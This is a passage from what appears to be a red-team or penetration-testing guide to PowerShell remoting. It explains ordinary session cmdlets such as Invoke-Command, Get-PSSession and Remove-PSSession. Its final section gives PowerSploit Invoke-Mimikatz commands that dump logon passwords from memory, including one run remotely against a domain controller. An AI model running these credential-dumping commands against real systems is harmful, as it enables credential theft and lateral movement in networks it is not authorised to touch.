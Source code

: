 **Tool Explanation:**
- **Invoke-Command**: Execute commands on remote systems
- **-ComputerName**: Target system(s)
- **-ScriptBlock**: Commands to execute
- **-Credential**: Authentication credentials
- **Advantages**: Batch execution, multiple targets, automation friendly
- **Disadvantages**: No interactive mode, command logging

### 2. PowerShell Remoting Management Tools

#### **Get-PSSession** - Session Management
```powershell
# List all sessions
Get-PSSession

# Get specific session
Get-PSSession -Id 1

# Get sessions by computer
Get-PSSession -ComputerName "US-DC01"
```

**Tool Explanation:**
- **Get-PSSession**: List and manage remote sessions
- **-Id**: Session identifier
- **-ComputerName**: Filter by target computer
- **Advantages**: Session monitoring, management, troubleshooting
- **Disadvantages**: Basic functionality, limited filtering

#### **Remove-PSSession** - Session Cleanup
```powershell
# Remove specific session
Remove-PSSession -Id 1

# Remove all sessions
Get-PSSession | Remove-PSSession

# Remove sessions by computer
Get-PSSession -ComputerName "US-DC01" | Remove-PSSession
```

**Tool Explanation:**
- **Remove-PSSession**: Clean up remote sessions
- **-Id**: Specific session to remove
- **-Session**: Session object to remove
- **Advantages**: Resource cleanup, security, memory management
- **Disadvantages**: Can disconnect active work

### 3. Third-Party Remoting Tools

#### **PowerSploit - Invoke-Mimikatz**
```powershell
# Import PowerSploit
Import-Module PowerSploit

# Execute Mimikatz on remote system
Invoke-Mimikatz -Command '"sekurlsa::logonpasswords"'

# Remote execution
Invoke-Command -ComputerName "US-DC01" -ScriptBlock { Invoke-Mimikatz -Command '"sekurlsa::logonpasswords"' }
```
